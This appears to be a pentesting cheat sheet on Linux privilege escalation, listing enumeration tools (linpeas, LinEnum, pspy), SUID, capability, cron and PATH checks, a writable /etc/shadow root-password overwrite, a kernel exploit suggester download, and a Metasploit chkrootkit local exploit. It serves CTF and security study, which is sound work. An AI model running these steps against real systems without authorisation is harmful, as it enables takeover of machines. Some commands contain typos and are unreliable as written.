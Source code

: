 # Linux - Privilege Escalation

## Linux Local Enum Scripts

### LinPeass

Copy the script on the HTTP server directory.

```
cp /usr/share/peass/linpeas/linpeas.sh .
```

Transfer the script on target and run it.

### LinEnum.sh

{% embed url="https://github.com/rebootuser/LinEnum" %}

1. Copy bash script in a file (LinEnum.sh)
2. upload file to target machine /temp dir through meterpreter (upload LinuEnum.sh)
3. run this commands in linux target machine (chmod +x LinEnum.sh && ./LinEnum.sh)

### pspy

{% embed url="https://github.com/DominicBreuker/pspy" %}

**pspy** is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs.

```bash
# download on kali machine
wget https://github.com/DominicBreuker/pspy/releases/download/v1.0.0/pspy32

# trasfer with python on a target

# run on target
chmod +x pspy32 && pspy32
```





## Juicy Dir

Check this directory to find something juicy

```
/opt/
```





## Groups

Check the groups user and, if there is no standard one, google it to find some information and futher actions to do with it.&#x20;

```bash
id
```



## Sudo

```bash
sudo -l
```

## SUIDs

<pre class="language-bash"><code class="lang-bash"># Check application with permission
find / type f -perm -04000 -ls 2>/dev/null
<strong>find / -perm -u=s -type f 2>/dev/null
</strong></code></pre>

### GTFObins

{% embed url="https://gtfobins.github.io/" %}

## Capabilities

```bash
# check application with capabilities
getcap -r / 2>/dev/null

# If there are cap_setuid capabilities, use application for change user uid.
```

## Permitions Check

```bash
# check file with write permision open
find / -not -type l -perm -o+w

# /etc/shadow writable, change a root password with SHA-512 hash
openssl passwd -6 -salt xyz YOURPASS
# elevate your privs without sudo 
su -
```

## Cron Jobs

```bash
cat /etc/crontab

# create or mod script in crontab
```



## Log Analysis

```bash
# Look for password 
grep -iR "pass" /var/log
# filter for root user or another privileged user 
grep -iR "root" /var/log

```



## PATH Variable Manipulation

```bash
vim gre    # Check the $PATH
echo $PATH

# check writable folders
find / -writable 2>/deb/null

# add writable folder in PATH
export PATH=/[$WR_FOLDER]:$PATH

# Create command script in writable folder for privEsc
# Run Script
```



## **NFS (Network File Share)**

```bash
cat /etc/exports
# Check if there is no_root_squash in NFS conf
```



## Kernel Exploit

```bash
# Identify the Kernel version 
uname -a

# Search an exploit code for the kernel version with Linux Exploit Suggester
# download the script .sh
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh

# trasfer the script in the target
# run it
chmod +x lse.sh
./lse.sh

# READ EXPLOIT!!!
gcc explit.c -o exploit
```



## Metasploit PrivEsc

```bash
# view running program on target
ps aux
```

### CHKROOTKIT

```bash
service postgresql start && msfconsole

use exploit/unix/local/chkrootkit
set CHKROOTKIT /bin/chkrootkit
set SESSION N
set LHOST IP
exploit
```





